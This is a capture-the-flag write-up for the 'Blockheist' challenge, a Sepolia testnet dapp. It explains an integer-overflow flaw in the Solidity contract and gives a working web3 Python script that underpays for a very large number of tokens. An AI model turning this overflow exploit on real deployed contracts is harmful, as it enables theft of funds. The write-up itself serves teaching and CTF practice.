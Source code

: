 ### Blockheist
![Blockheist CTFD](../.assets/blockheist_1.png)

The landing page of the webapp hints at a crypto website with the Connect Wallet button. 

![Blockheist landing](../.assets/blockheist_2.png)

The page's source code hints at it being EVM based with the use of ethersjs

![ethers js](../.assets/blockheist_3.png)

Opening a wallet provider and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `Buy Flag` reveals the user must own 1e75 Haxor token, which costs 4.7e+59 ETH

![dapp](../.assets/blockheist_4.png)

Searching for a the EVM wallet address format reveals a contract address (ca).

![devtools](../.assets/blockheist_5.png)

Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x2876ad7baf96864c992150ff16f909ab12440adb) reveals the contract source code.


```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.7.6;

contract Haxor {
    mapping (address => uint256) private userBalances;
    uint8 public TOKEN_PRICE = 2 wei;
    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );

        userBalances[msg.sender] += _tokenToBuy;
        TOKEN_PRICE++;
    }
    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
```
The Important things to note from the code are:
1. The `TOKEN_PRICE` variable is a `uint8` and the `userBalances` mapping has a uint256 dict value type.
2. The `buy` function uses unsafe maths to verify the amount being paid.  The unsafe multiplication will overflow back to 0 if the result of `_tokenToBuy` \* `TOKEN_PRICE` is greater than 2^256. The user wallet controls one of the variables of the multiplication. 
3. Every buy irreversibly increases the cost of each Haxor token by 1. The unsafe addition will overflow the `uint8` `TOKEN_PRICE` variable and reset it to 0 after 2^8 - 2(2 Wei is the starting price of haxor) 

A simple script to interact with the contract

```python
contract_abi = [] #Replace with contract ABI. Get from etherscan link
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #Sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") #Replace with wallet private_key
CONTRACT_ADDRESS = Web3.to_checksum_address("0x2876ad7baf96864c992150ff16f909ab12440adb") # Contract address
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1) 

wallet_current_balance = TOKEN_CONTRACT.functions.getUserBalance(user_wallet.address).call()
print(wallet_current_balance)
current_haxor_price = TOKEN_CONTRACT.functions.TOKEN_PRICE().call()
print(current_haxor_price)
uint_max = 2**256
wei_to_send = current_haxor_price - (uint_max % current_haxor_price)
amount_of_tokens_to_buy = (wei_to_send + uint_max) // current_haxor_price
if wallet_current_balance + amount_of_tokens_to_buy > 2**256:
   print(f"User balance will overflow back to 0")
   exit()

raw_data = TOKEN_CONTRACT.encodeABI("buy", args=[amount_of_tokens_to_buy])
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": wei_to_send,
            "gas": 400_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
print(tx)
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.to_hex(txn_hash)) # Check hash manually

```

With each run of the script, the user balance increases exponentially until the wallet can afford the flag

![solution](../.assets/blockheist_6.png)